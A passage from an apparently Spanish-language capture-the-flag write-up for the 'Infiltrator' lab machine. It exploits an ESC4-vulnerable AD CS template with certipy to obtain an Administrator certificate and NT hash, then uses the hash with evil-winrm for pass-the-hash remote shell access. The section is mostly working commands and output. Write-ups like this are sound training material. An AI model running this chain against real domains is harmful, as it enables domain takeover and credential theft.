Vemos que existe una plantilla vulnerable (Infiltrator_Template) la cual es vulnerable a "ESC4". No es muy difícil de explotar, y podemos tener una referencia en el cheatsheet de [](https://github.com/ly4k/Certipy/wiki/06-‐-Privilege-Escalation#esc4-template-hijacking).

La explotamos de la siguiente forma. Primero ejecutando el siguiente comando de certipy:

```bash
❯ certipy req -u "infiltrator_svc$" -hashes :663675deae5af90402f1d53c8117cdaa -dc-ip '10.10.11.31' -target 'dc01.infiltrator.htb' -ca 'infiltrator-DC01-CA' -template 'Infiltrator_Template' -upn 'Administrator@infiltrator.htb'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 25
[*] Got certificate with UPN 'Administrator@infiltrator.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Perfecto, ahora que tenemos un archivo pfx, el siguiente comando es primordial y necesario para el paso final:

```bash
❯ certipy auth -pfx administrator.pfx -domain infiltrator.htb -dc-ip 10.10.11.31
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@infiltrator.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@infiltrator.htb': aad3b435b51404eeaad3b435b51404ee:1356f502d2764368302ff0369b1121a1
```

Ahora que tenemos el hashnt del administrador, como paso final seria conectarnos al DC y obtener la flag de root, a través de un ataque de Pass The Hash (PTH):

```powershell
❯ evil-winrm -i dc01.infiltrator.htb -u administrator -H 1356f502d2764368302ff0369b1121a1
 
Evil-WinRM shell v3.7
  
Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir ..\Desktop


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         8/3/2024   7:46 AM                Infiltrator ADCS Backups
-a----         8/3/2024   7:46 AM         171340 backup.zip
-ar---        5/29/2025   3:02 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Y así pudimos pwnear por completo la maquina infiltrator.